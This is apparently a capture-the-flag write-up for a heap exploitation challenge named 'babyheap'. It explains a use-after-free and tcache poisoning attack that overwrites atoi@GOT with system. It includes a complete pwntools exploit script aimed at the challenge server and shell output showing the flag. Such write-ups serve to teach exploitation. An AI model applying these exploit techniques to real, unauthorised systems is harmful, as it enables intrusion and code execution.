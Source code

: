 # babyheap

![](pics/babyheap.png)

### Summary

* Classic menu-style heap challenge
* "Limited options" (malloc x2, write x1, free x1, leak x1)
* Hidden function (option `1337`) = malloc+edit
* UAF/tcache poisoning to overwrite arbitrary memory
    * Leak and get an extra edit
    * Overwrite `atoi@GOT` with `system` 

### Walkthrough
We are given an ELF x86-64 `babyheap`.
```
babyheap: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c8f2569845fd18e770a643884587a01e586b6286, stripped
```
```
$ ./babyheap
------- BabyHeap -------
1 - Create
2 - Edit
3 - Show
4 - Delete
5 - Exit
> 1
Done!
------- BabyHeap -------
1 - Create
2 - Edit
3 - Show
4 - Delete
5 - Exit
> 2
Content? hello
------- BabyHeap -------
1 - Create
2 - Edit
3 - Show
4 - Delete
5 - Exit
> 3
Content: hello

------- BabyHeap -------
1 - Create
2 - Edit
3 - Show
4 - Delete
5 - Exit
> 4
Done!
```
We get to use **>only one<** of each option, except for `Create` which we can do twice, provided that we `Delete` in-between. `atoi` is used to handle string to integer conversion for option selection.

**But wait, there is more:**
A hidden option, `Fill` was found through statical analysis, and functions as one combined `Create`+`Edit`. We get 1 of this `Fill`, meaning we get *an extra* malloc + write.
```
$ ./babyheap 
------- BabyHeap -------
1 - Create
2 - Edit
3 - Show
4 - Delete
5 - Exit
> 1337
Fill hello
------- BabyHeap -------
1 - Create
2 - Edit
3 - Show
4 - Delete
5 - Exit
> 3
Content: hello
```

Every function in IDA (main is basically just atoi -> switch case with checks):

![](pics/ida.png)

*The qwords are bss variables used to limit the use of each function* 

### Solution

* Add
* Delete to put in tcache free list
    * chunk -> tail (`0x0`)
* Edit to poison free list
    * chunk -> pointer we want (`0x6020a0`)
* Add
    * pointer we want is next up in free list
* Fill 
    * gives us a pointer to `0x6020a0` and lets us write there

**So what's special about `0x6020a0`?**
* Our "uses" are stored there, so we can zero them and use them once more AND
* at offset `0x28` , in other words `0x6020c8` is our `buf` pointer

![](pics/ida2.png)

This means, using `Fill` we can both zero our "uses", and re-point `buf` to `atoi@GOT` which holds a libc address. Thus, we can:
* Leak a libc address using `Show`
    * Calculate address of `system`
* Overwrite `atoi@GOT` so it points to `system`, using our extra `Edit`.
* Input `/bin/sh` as option, passing it to `atoi@GOT`
    * Effectively calling `system("/bin/sh")`


```python
#!/usr/bin/python2
from pwn import *

def add():
    p.sendlineafter("> ", "1")

def edit(data):
    p.sendlineafter("> ", "2")
    p.sendlineafter("Content? ", data)

def show():
    p.sendlineafter("> ", "3")

def delete():
    p.sendlineafter("> ", "4")

def fill(data):
    p.sendlineafter("> ", "1337")
    p.sendafter("Fill ", data)

got_atoi = 0x0000000000602060
bss = 0x00000006020A0

with context.quiet:
    #p = process("./babyheap", env = {"LD_PRELOAD":"./libc.so.6"})
    p = remote("51.68.189.144", 31005)
    #p = remote("35.243.188.20", 2000)

    p.recvline()

    #UAF to get arbitrary pointer
    add()
    delete()
    edit(p64(bss)) #On the next-next malloc, give me a pointer to bss (0x6020a0)
    add()
    #Now the next malloc will give us the pointer.

    #Malloc 
    #Zero out our "uses" and point "buf" to got_atoi
    fill((chr(0x0)*0x28) + p64(got_atoi))

    #Leak libc address (atoi)
    show()
    p.recvuntil("Content: ")
    libc_atoi= u64(p.recvline().strip().ljust(8, chr(0x0)))
    print "Leaked libc_atoi: %s" % hex(libc_atoi)

    #Calculate system
    offset_to_system = 0xf010
    libc_system = libc_atoi + offset_to_system
    print "Calced libc_system: %s" % hex(libc_system)

    #Win
    edit(p64(libc_system))
    p.sendlineafter("> ", "/bin/sh")
    p.interactive()
```


```
$ ./exploit.py 
Leaked libc_atoi: 0x7fa83e800db0
Calced libc_system: 0x7fa83e80fdc0
$ ls
babyheap
babyheap.sh
flag.txt
$ cat flag.txt
F#{W3lc0m3_t0_h34p_Expl01t4t10n!}
```

